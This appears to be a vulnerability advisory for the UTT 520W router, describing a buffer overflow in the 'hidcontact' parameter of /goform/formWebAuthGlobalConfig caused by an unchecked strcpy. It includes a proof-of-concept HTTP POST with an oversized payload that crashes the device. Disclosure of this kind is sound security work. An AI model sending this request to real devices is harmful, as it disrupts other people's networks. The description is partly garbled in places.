


# Information

**Vendor of the products:** UTT

**Vendor's website:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/)

**Affected products:** 进取 520W

**Affected firmware version:** <=v3v1.7.7-180627

**Firmware download address:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/downloadfile.php?id=2599)

# Overview

The UTT Aggressive 520W router has a critical overflow vulnerability. An attacker can control the parameters by accessing the route /goform/formWebAuthGlobalConfig, which can cause a buffer overflow. Specifically, this can be done by "strcpy((char *)(InstPointByIndex_1 + 678), src_1);"Implement a denial-of-service attack.

# Vulnerability details

The API for invoking the function



`hidcontact` is copied directly to a fixed buffer without boundary checks:



This leads to buffer overflow when attackers provide an excessively long payload.

# POC

```
POST /goform/formWebAuthGlobalConfig HTTP/1.1
Host: 192.168.1.1
Content-Length: 1822
Content-Type: application/x-www-form-urlencoded
Authorization: Digest username="admin", realm="UTT", nonce="80758026511f147977ce8ea9363e038c", uri="/goform/formArpBindGlobalConfig", algorithm=MD5, response="3c90b3b4d198905f88cf1301ff8ad6b5", opaque="5ccc069c403ebaf9f0171e9517f40e41", qop=auth, nc=000001a1, cnonce="71e33390dc75c484"
Referer: http://192.168.1.1/IPMac.asp
Connection: close

hidcontact=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

